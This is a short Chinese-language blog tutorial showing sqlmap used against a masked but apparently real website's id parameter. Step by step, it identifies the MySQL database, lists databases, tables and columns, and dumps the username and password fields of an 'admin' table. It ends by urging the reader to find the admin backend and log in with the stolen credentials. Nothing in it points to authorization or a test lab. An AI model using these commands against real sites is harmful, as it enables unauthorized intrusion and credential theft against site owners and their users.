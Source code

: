 ```yaml
---
title: sqlmap使用实例
date: 2016-02-18 16:22:09
tags: [Web漏洞]
categories: [网络安全]
---
```


## 1. 确定是什么数据库

    sqlmap -u "http://********/about.php?id=5"

**参数:**
    -u: 指定注入点url

**结果:**
![1.png](https://ws1.sinaimg.cn/large/006tNc79gy1fvo6ym82ujj30hw07hq4a.jpg)

如图所示: 数据库是 `MySQL`


<!-- more -->


## 2. 查看当前站点有那些数据库 

    sqlmap -u "http://*********/about.php?id=5" --dbs

**参数**：
    --dbs: dbs前面有两条杠，请看清楚。

**结果:**
![2.png](https://ws2.sinaimg.cn/large/006tNc79gy1fvo6yn4xmvj30hz07bta1.jpg)

如图所示： 有 `dbracpro28` 和 `information_schema`两个数据库

## 3. 查看`dbracpro28`数据库中有那些数据表

    sqlmap -u "http://*********/about.php?id=5" --tables -D "dbracpro28"

**参数**：
    --tables: 列出表
    -D: 指定具体数据库 

**结果:**
![3.png](https://ws3.sinaimg.cn/large/006tNc79gy1fvo6yo3muyj30hz0a875r.jpg)

如图所示: `dbracpro28` 数据看有 34 个表

## 4. 查看 `dbracpro28`数据库中的`admin`表中有那些数据段

    sqlmap -u "http://*********/about.php?id=5" --columns -T "admin"  -D "dbracpro28"

**参数**：
    --columns: 列出字段
    -D: 指定具体数据库
    -T: 指定表 

**结果:**
![4.png](https://ws4.sinaimg.cn/large/006tNc79gy1fvo6yqh74gj30i109zwg7.jpg)

如图所示: `admin` 表中有以上 4 个字段

## 5. 查看 `dbracpro28`数据库中的`admin`表中`pwd`和`usernc` 里那些值

    sqlmap -u "http://*********/about.php?id=5" --dump -C "pwd, usernc"  -T "admin"  -D "dbracpro28"

**参数**：
    --dump: 将结果导出
    -D: 指定具体数据库
    -T: 指定表 
    -C: 指定字段

**结果:**
![5.png](https://ws2.sinaimg.cn/large/006tNc79gy1fvo6yrfotnj30hw07hq4a.jpg)

如图所示: `userna`, 和 `pwd` 就被我们扫出来啦~ 然后找到后台, 用它们愉快的登陆吧~~~ ：）